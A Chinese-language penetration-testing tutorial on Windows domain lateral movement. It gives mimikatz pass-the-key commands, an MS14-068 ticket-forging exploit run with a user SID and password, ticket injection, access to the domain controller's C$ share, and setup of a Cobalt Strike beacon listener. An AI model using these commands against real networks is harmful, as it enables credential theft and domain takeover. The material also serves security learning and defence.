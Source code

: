 PTK-mimikatz

如果禁用了ntlm认证，PsExec无法利用获得的ntlm hash进行远程连接，但是使用mimikatz还是可以攻击成功。对于8.1/2012r2，安装补丁kb2871997的Win 7/2008r2/8/2012等，可以使用AES keys代替NT hash来实现ptk攻击
pth：没打补丁用户都可以连接，打了补丁只能administrator连接
ptk：打了补丁才能用户都可以连接，采用aes256连接
利用流程
首先使用mimikatz获取aes256
Default
mimikatz sekurlsa::ekeys

攻击该域内其它主机，成功后返回cmd
Default
mimikatz sekurlsa::pth /user:administrator /domain:god /aes256:d55913af88d543d2411109270ea36c1c29a71de7a3156d61cd6989feb0f1ae57

PTT-ms14068

利用条件：
1.域控没有打MS14-068的补丁(KB3011780)
2.拿下一台加入域的计算机
3.有这台域内计算机的域用户密码和Sid
MS14-068是密钥分发中心（KDC）服务中的Windows漏洞。它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos TGT来获得票证.
利用方法：
1、漏洞 MS14068(webadmin权限)
获取当前用户的SID值，并上传MS14-068漏洞利用文件，然后执行生成攻击域控主机的TGT凭据
Default
shell whoami/user
shell ms14-068.exe -u webadmin@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1132 -d 192.168.3.21 -p admin!@#45
Default
# 获取当前主机票证
shell klist
# 然后清除票证
shell klist purge
# 使用mimikatz将生成的票证导入到内存中
mimikatz kerberos::ptc TGT_webadmin@god.org.ccache

使用如下命令，可成功读取域控主机C盘目录下文件。

注：
Kerberos认证协议中仅支持对计算机名进行认证，无法使用ip地址认证。
Default
shell dir \\OWA2010CN-GOD\c$

因域控所处环境通常不出网，可以通过该web主机进行转发，上线CS
创建beacon_bind_tcp端口为4444的监听器,并生成木马。

